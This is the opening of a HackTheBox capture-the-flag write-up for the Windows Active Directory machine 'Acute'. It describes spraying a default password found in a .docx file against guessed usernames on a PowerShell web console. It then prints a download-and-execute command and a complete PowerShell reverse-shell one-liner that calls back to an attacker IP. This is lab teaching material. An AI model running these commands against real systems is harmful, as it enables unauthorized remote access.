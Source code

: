 ```yaml
---
categories:
- CTF
image:
  path: htb_acute_slide.png
layout: post
media_subpath: /assets/posts/2022-07-16-active-directory-jea-random-stuff-acute-hackthebox
tags:
- active directory
- hackthebox
- windows
title: "Active Directory, JEA & Random Stuff \u2013 Acute @ HackTheBox"
---
```


Acute is a 40-point Active Directory Windows machine on HackTheBox. I’m going to use it to show some techniques which can be useful in other scenarios and keep it short on the things that are not that important.

## User

### Foothold

We visit <https://atsserver.acute.local> and find a company page. On the about page there is a list of usernames: Aileen Wallace, Charlotte Hall, Evan Davies, Ieuan Monks, Joshua Morgan, and Lois Hopkins. There is also a .docx file linked on the page which we download & read. This has a link to [https://atsserver.acute.local/Acute\_Staff\_Access](https://atsserver.acute.local/Acute_Staff_Access) and mentions a default password "Password1!". On `/Acute_Staff_Access` we have a powershell remoting web console. At this point we have to come up with a username scheme the company might use and spray the password against all of the potential usernames.

This will eventually lead to a valid login: Username: "acute\\edavies", Password: "Password1!", Computername: "Acute-PC01". Now we have a WinRM shell on the Acute-PC01 and can continue to explore it. Because I don’t like this web shell we are upgrading it to a remote interactive shell:

```
PS C:\Users\edavies\Documents> iex(iwr http://10.10.14.7/run.txt -usebasicparsing)
...
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.145] 49835
[>] whoami
acute\edavies
```

Contents of run.txt:

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.7",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "[>] ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
